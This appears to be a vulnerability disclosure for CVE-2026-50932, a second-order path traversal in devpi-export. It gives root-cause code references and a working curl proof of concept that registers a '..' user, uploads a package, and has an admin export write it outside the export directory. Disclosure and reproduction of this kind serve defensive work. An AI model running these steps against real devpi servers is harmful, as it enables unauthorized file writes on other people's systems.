



# CVE-2026-50932 — Path Traversal in devpi-export via persisted `..` username (second-order arbitrary file write)

[CVE ID]
CVE-2026-50932

[PRODUCT]
devpi/devpi — devpi-server / devpi-export, a PyPI-compatible caching proxy and private package index server

[VERSION]
devpi-server 6.19.1 (commit `d4fd61dc4c4a285773de40c981740fb71bc09001`)

[PROBLEM TYPE]
Directory Traversal (`CWE-22`)

## Description

A remote attacker registers a devpi user whose name is literally `..` via `PUT /{user}` (username is URL-encoded as `%2e%2e`). The name validator `is_valid_name` only blocks a character blocklist that does not include `.`, so the traversal segment is accepted and persisted together with an index created via `PUT /{user}/{index}` and a release file uploaded via `POST /{user}/{index}/` (multipart `file_upload`). Later, when an operator/admin runs `devpi-export <dir>` (backup/migration), `Exporter.dump_all` builds the destination as `userdir = path / user.name` and `IndexDump(..., userdir / indexname)`, and `dump_releasefiles` appends `project / version / basename`. Because `path / '..'` is not normalized and no containment check exists, `Exporter.copy_file` performs `dest.parent.mkdir(parents=True)` plus `shutil.copyfile(src, dest)` on a path outside the operator-chosen export directory. The `relpath = dest.relative_to(self.basepath)` computed in `copy_file` is purely lexical (it happily yields `../evil...`) and is used for logging and for export metadata (`copy_file` returns it and it is stored in the release-file descriptor in `dataindex.json`), never as a safety/containment check. The exported attacker-uploaded archive is thus written to an arbitrary escaped location (e.g. `/tmp/evil.../pkg/1.0/pkg-1.0.tar.gz` when exporting into `/tmp/scdd_export_...`), with fully attacker-controlled bytes.

Vulnerable code: <https://github.com/devpi/devpi/blob/d4fd61dc4c4a285773de40c981740fb71bc09001/server/devpi_server/importexport.py#L164-L173> (sink), <https://github.com/devpi/devpi/blob/d4fd61dc4c4a285773de40c981740fb71bc09001/server/devpi_server/importexport.py#L186-L199> (tainted destination construction), <https://github.com/devpi/devpi/blob/d4fd61dc4c4a285773de40c981740fb71bc09001/server/devpi_server/model.py#L332-L339> (name gate that permits `..`).

## Proof of Concept

### Victim setup

```bash
git clone https://github.com/devpi/devpi.git && cd devpi
git checkout d4fd61dc4c4a285773de40c981740fb71bc09001

cat > Dockerfile.scdd <<'DOCKER'
FROM python:3.11-slim
WORKDIR /app
COPY . /app
RUN pip install --no-cache-dir --upgrade pip \
  && pip install --no-cache-dir -e server
EXPOSE 3141
CMD ["bash","-lc","set -euo pipefail; mkdir -p /data/server; if [ ! -f /data/server/.nodeinfo ]; then devpi-init --serverdir /data/server --root-passwd scdd_root; fi; exec devpi-server --serverdir /data/server --host 0.0.0.0 --port 3141"]
DOCKER

docker build -t scdd_50932/devpi:d4fd61d -f Dockerfile.scdd .
docker run -d --name scdd_50932_devpi -p 38171:3141 scdd_50932/devpi:d4fd61d
# wait for http://127.0.0.1:38171/ -> HTTP 200 (devpi-server 6.19.1)
```



### Attack steps

Requests below target the local reproduction endpoint `http://127.0.0.1:38171` — the victim container published on Docker-host port 38171 (`docker run -p 38171:3141`); the recorded session issued them from the Docker host, not from a separate remote machine. Against a real deployment, substitute the victim's reachable address or reach it through a tunnel. Only step 1 is unauthenticated (default ACL allows anonymous user registration when `restrict_modify` is unset).

```bash
BASE='http://127.0.0.1:38171'; TS="$(date +%s)"
ATT_USER='..'; ATT_PASS='scdd_pass'; INDEX="evil${TS}"
PROJECT="scddpkg${TS}"; VERSION='1.0'; MARK="CVE50932_MARKER_${TS}"

# 1) anonymous PUT registers user named ".." -> HTTP 201
curl -sS -X PUT "$BASE/%2e%2e" -H 'Content-Type: application/json' \
  --data '{"password":"scdd_pass"}'
# -> {"result":{"created":"...","indexes":{},"username":".."},"type":"userconfig"}

# 2) attacker creates an index under that user (basic auth "..") -> HTTP 200
curl -sS -u '..:scdd_pass' -X PUT "$BASE/%2e%2e/${INDEX}" \
  -H 'Content-Type: application/json' --data '{}'

# 3) build a minimal sdist containing a marker file, then upload it
ROOT="${PROJECT}-${VERSION}"; SDIST="${PROJECT}-${VERSION}.tar.gz"
rm -rf "$ROOT" "$SDIST" && mkdir -p "$ROOT"
cat > "${ROOT}/PKG-INFO" <<EOF
Metadata-Version: 2.1
Name: ${PROJECT}
Version: ${VERSION}
Summary: scdd e2e

EOF
printf '%s\n' "$MARK" > "${ROOT}/scdd_marker.txt"
tar -czf "$SDIST" "$ROOT" && rm -rf "$ROOT"
ls -la "$SDIST"   # recorded run: 287-byte sdist

curl -sS -u '..:scdd_pass' -X POST "$BASE/%2e%2e/${INDEX}/" \
  -F ':action=file_upload' -F "name=${PROJECT}" -F "version=${VERSION}" \
  -F "content=@${SDIST};filename=${SDIST}"
# -> HTTP 200
```

The triggering step is an operator/admin action (backup or migration):

```bash
# 4) admin runs devpi-export into /tmp/scdd_export_${TS}
docker exec scdd_50932_devpi bash -lc \
  "devpi-export --serverdir /data/server /tmp/scdd_export_${TS}"
```



### Evidence

The export log itself prints the escaped `../` destination, the archive materializes outside the export directory (which contains only `dataindex.json`), and the attacker-controlled marker is read back from the escaped tarball:

```
dumped user '..'
copy file at ../evil1790570498/scddpkg1790570498/1.0/scddpkg1790570498-1.0.tar.gz
dumped releasefile: ../evil1790570498/scddpkg1790570498/1.0/scddpkg1790570498-1.0.tar.gz

$ ls -la /tmp/scdd_export_1790570498
-rw-r--r-- 1 root root 3218 ... dataindex.json          # export dir itself
$ ls -la /tmp/evil1790570498/scddpkg1790570498/1.0/scddpkg1790570498-1.0.tar.gz
-rw-r--r-- 1 root root  287 ... /tmp/evil1790570498/...  # written OUTSIDE export dir

$ tar -xOzf /tmp/evil1790570498/scddpkg1790570498/1.0/scddpkg1790570498-1.0.tar.gz \
    scddpkg1790570498-1.0/scdd_marker.txt
CVE50932_MARKER_1790570498

# containment check (realpath): inside export dir? False
```



## Impact

A remote, unauthenticated attacker can register a devpi user named `..` (default configuration; anonymous user creation is permitted unless `restrict_modify`/ACLs restrict it) and, using only that self-registered account's credentials, persist an index and release archives under it. The out-of-bounds write itself is second-order: it fires only when an administrator/operator later runs `devpi-export <dir>` against the poisoned server state (a routine backup/migration step, configuration-dependent). When that happens, `Exporter.copy_file` writes the attacker-uploaded package archive (`.tar.gz` bytes fully controlled by the attacker, including the filename components derived from project/version/basename) to a location outside the chosen export directory, with directory components created as needed (`mkdir(parents=True)`). This enables overwrite/creation of arbitrary files writable by the exporting process at any depth reachable through traversal segments in the persisted user/index names. Constraint: the written content is an exported package archive rather than arbitrary raw bytes, and exploitation requires the admin-side `devpi-export` run; no attacker interaction is needed beyond the initial HTTP registration/upload.

## Occurrences

- `server/devpi_server/importexport.py:L165-L173` — `Exporter.copy_file`: `dest.parent.mkdir(parents=True)` + `shutil.copyfile(src, dest)` on an unconstrained `dest`; `relpath = dest.relative_to(self.basepath)` (L166) is lexical only, no containment check
- `server/devpi_server/importexport.py:L192` — `Exporter.dump_all`: `userdir = path / user.name` (persisted `..` username joins the export destination)
- `server/devpi_server/importexport.py:L199` — `IndexDump(self, stage, userdir / indexname).dump()` (index name also unconstrained)
- `server/devpi_server/importexport.py:L290-L291` — `dump_releasefiles`: `dest = self.basedir / linkstore.project / link.version / entry.basename`
- `server/devpi_server/model.py:L332-L339` — `name_char_blocklist_regexp` / `is_valid_name` allow `.`-only names such as `..`

## References

- [CVE-2026-50932](https://www.cve.org/CVERecord?id=CVE-2026-50932)
- [devpi/devpi repository at pinned commit `d4fd61dc4c4a285773de40c981740fb71bc09001`](https://github.com/devpi/devpi/tree/d4fd61dc4c4a285773de40c981740fb71bc09001)
